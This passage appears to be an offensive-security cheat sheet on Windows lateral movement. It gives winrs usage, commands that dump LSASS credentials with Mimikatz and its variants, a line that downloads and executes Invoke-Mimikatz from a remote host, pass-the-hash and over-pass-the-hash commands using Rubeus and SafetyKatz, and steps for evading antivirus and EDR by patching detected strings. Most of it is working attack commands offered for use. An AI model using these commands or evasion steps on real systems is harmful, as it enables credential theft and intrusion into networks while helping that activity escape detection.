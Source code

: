 - **Winrs and winrm.vbs:**
```powershell
# winrs can be used in place of PSRemoting 
winrs -r:hostname -u:domain\user 
```

- **Lateral movement with Invoke-Mimikatz:**
```powershell
# Extract credentials from lsass
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Execute Invoke-Mimikatz from computer xxx.xxx.xxx.xxx
iex (iwr http://xxx.xxx.xxx.xxx/Invoke-Mimikatz.ps1 -UseBasicParsing)
# "Over pass the hash" generate tokens from hashes
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:corporate.corp.local /ntlm:x /run:powershell.exe"'


# Useful alternatives (less detected using alternative DLLs)
SafetyKatz.exe "sekurlsa::ekeys"
SharpKatz.exe --Command ekeys
rundll32.exe OutFlank-Dumpert.dll,Dump
Pypykatz.exe live lsa
rundll32.exe c:\windows\system32\comsvcs.dll,MiniDump <Lsass_PID> c:\temp\lsass.dmp full 
impacket (from Linux)
Physmem2profit (from Linux)

# Over-pass-the-hash (OPTH):  Requires access to joined machine but can use AES keys to generate Kerberos Token
# spawns a powershell session (logontype=9, like runas /netonly)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /aes256:<aes256Key> /run:powershell.exe"'
Safetykatz.exe "sekurlsa::pth /user:Administrator /domain:domain.local /aes256:<aes256Key> /run:cmd.exe" "exit"
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt

# Pass-the-Hash (pth): can be done by non joined machine but requires NTLM hash and doesn't create Kerberos
# Doesn't work if the domain is configured to not accept NTLM authentication
```

- **Lateral movement with .NET Tools:**
```powershell
# Better than powershell but still detected by AV/EDR. There are two main problems here:
1. Prevent detection by obfuscation
2. Find a way to deliver the payload without getting caught
```

- *Obfuscation*
```powershell
# Evasion is usually done by
- compile the source
- use Defendercheck.exe to identify detected strings
- find a way to replace the malicious strings with a safer version ("Credentials" -> "Credents", etc...)
- Compile and repeat the procedure

# Some examples of obfuscation:

# Out-CompressedDll.ps1 can help to generate a base64 representtaion of DLL or an EXE
# Can be used to embed mimikatz into SafetyKatz
Out-CompressedDll mimikatz.exe > output.txt
# Paste it into Costant.cs and compile as SafetyKatz

# BettersafetyKatz:
# get the mimikatz binary code from github and unzip it in RAM
# use defendercheck on it and patches the detected strings
```
